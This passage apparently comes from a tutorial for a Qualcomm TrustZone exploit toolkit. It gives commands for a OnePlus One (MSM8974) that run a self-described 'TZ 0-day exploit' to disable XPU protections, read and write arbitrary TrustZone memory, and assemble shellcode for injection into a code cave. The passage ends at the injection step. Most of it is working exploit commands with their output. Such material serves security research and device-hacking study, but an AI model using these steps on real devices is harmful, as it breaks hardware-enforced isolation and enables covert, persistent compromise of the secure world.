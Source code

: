<br/>
<br/>

#### 12. Hot patch tz (writing to code cave)

<br/>

##### 32 Bit Oneplus One MSM8974
 
###### 12.1. Disabling XPU
   
  ```
  root@bacon:/ # /data/local/tmp/qcxploit svcreg32 03 06 03 0x22 0xFC48B080 0x0
        Sending SVC: 0x10, CMD: 0x2
        IOCTL RES: 0x0000001E

  root@bacon:/ # /data/local/tmp/qcxploit exploit8974
        MSM8974 TZ 0-day exploit by B.Kerler 2017
        ----------------------------------------------------------
        Disable NS Blacklist
        Zeroing out IMEM
        Refreshing NS Blacklist
        Done exploiting
  ```
   
###### 12.2. Reading / Writing
  Reading dword
  ```
  root@bacon:/ # /data/local/tmp/qcxploit svcreg32 03 06 03 0x0 0x[addr_to_read] 0x[bufferaddr]
  ```
  
  Writing dword   
  ```
  root@bacon:/ # /data/local/tmp/qcxploit svcreg32 03 06 03 0x22 0x[addr_to_write] 0x[value_to_write]
  ```
  
  Reading after xpu disabled
  ```
  root@bacon:/ # /data/local/tmp/qcxploit readmem [addr_to_read] [length_to_read]
  ```
  
  Writing after xpu disabled   
  ```
  root@bacon:/ # /data/local/tmp/qcxploit writemem [addr_to_write] [value_to_write_as_hexstring]
  ```
     
###### 12.3. Generating shellcode
   
  ```
  ~/qcpatchtools ~ Tools/asmtools.py -asm arm,thumb -in ShellCode/shellcode_examples/read_write_shellcode_arm.txt 
        CPU: arm, MODE: thumb
        70b5222802d00868106000e00a6070bd
  ```
        
###### 12.4. Injecting shellcode (0xfe809c8d is your code cave offset from 7.1.)
   